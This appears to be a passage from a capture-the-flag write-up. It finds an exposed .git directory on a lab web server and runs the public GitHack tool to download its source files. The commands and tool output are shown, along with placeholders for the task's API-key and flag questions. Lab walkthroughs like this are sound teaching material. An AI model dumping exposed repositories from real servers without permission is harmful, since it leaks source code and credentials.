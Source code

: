 On the enumerate section there's a <font color="#ffc000">|_  /.git/HEAD: Git</font>  folder. Accessing the directory gives the 403 status.

Hidden directories, left accidentally (or not) on the server, might be a very valuable source of sensitive data leaks. More info https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application.


## Install the exploit.
`$ git clone https://github.com/lijiejie/GitHack.git` 

Run the exploit.
`$ python3 GitHack.py http://10.10.25.126/.git/` 

[+] Download and parse index file ...
[+] CTX_WSUSpect_White_Paper.pdf
[+] Context_Red_Teaming_Guide.pdf
[+] Context_White_Paper_Pen_Test_101.pdf
[+] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
[+] Glibc_Adventures-The_Forgotten_Chunks.pdf
[+] api.php
[[1. What is the API key that fits the following pattern- "AND*"]]
[[3. What is the API key that fits the following pattern-"GIT*"]]
[[WEBAPP flag]]
[+] functions.php
[+] home.php
[+] index.php
[+] info.php
[OK] home.php
[OK] functions.php
[OK] info.php
[OK] api.php
[OK] index.php
[OK] Context_White_Paper_Pen_Test_101.pdf
[OK] Context_Red_Teaming_Guide.pdf
[OK] Glibc_Adventures-The_Forgotten_Chunks.pdf
[OK] CTX_WSUSpect_White_Paper.pdf
[OK] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf

[[2. What is the API key that fits the following pattern- "WEB*"]]
